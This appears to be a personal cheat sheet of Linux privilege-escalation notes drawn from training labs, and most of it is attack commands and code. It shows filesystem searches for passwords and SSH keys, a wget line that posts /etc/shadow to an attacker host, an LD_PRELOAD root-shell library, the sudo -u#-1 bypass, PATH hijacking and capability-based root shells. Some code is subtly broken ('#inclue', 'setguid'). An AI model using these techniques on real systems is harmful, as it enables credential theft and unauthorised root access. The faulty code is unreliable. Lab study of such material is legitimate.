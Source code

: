 **1. Basic CMDs**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Other Escalation Techniques**
**4. Log4j**
**5. References**

---

###**1 Basic CMDs::**###
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null
+ find / -type f -perm -04000 ls 2>/dev/null
+ strace /dir/to/sicky/bit(X.so) 2>&1 | grep -i -E "open|access|no such file"

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

###**2. SUIDS, LD_PRELOAD, && CVE's**###

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

##**SUID escalation w/ Binary Symlinks via nginx::**##
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
https://academy.tcm-sec.com/courses/1154399/lectures/24800164
---

##**SUID escalation w/ env variables::**##
https://academy.tcm-sec.com/courses/1154399/lectures/24800170
```
strings /usr/local/bin/suid-env :: "etc etc... service apache2 start
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > tmp/service
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
###** 3. Other Escalation techniques::**###

Enumeration::
wfuzz -c -f sub-fighter -w /subdomains-top1million-110000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm"

##**Escalation w/ capabilities::**##
```
getcap -r / 2>/dev/null :: /usr/bin/python2.6 = cap_setuid+ep #Permit effective || permit everything
usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash") :: whoami# root'
tar,openssl,perl,etc,etc
```
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
https://mn3m.info/posts/suid-vs-capabilities/
https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

##**Escalation w/ scheduled tasks cron/timers::**##
```
cat /etc/crontab
systemctl list-timers --all
```


###**3. Log4j**###
**CVE-2021-44228 log4j::**
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```